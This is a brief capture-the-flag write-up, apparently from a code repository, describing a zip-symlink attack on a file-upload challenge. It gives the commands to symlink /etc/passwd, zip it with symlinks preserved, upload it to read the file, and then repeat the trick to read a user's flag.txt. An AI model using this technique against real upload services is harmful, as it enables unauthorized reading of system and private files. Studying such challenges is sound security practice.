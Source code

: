 + Lets create a symlink with the following command:
`ln -s /etc/passwd passwd`
+ The zip the symlinks with the follwoing command:
zip -y passwd.zip passwd
+ upload this zip file and yes it works
+ From the contents of the /etc/passwd, we get the user as `copenhagen`. The flag is in `/home/copenhagen/flag.txt`
+ Symlink to get the flag: `ln -s /home/copenhagen/flag.txt flagg`
+ Zip the symlink: `zip -y flag.zip flagg`
+ When we upload this zip, we get the flag

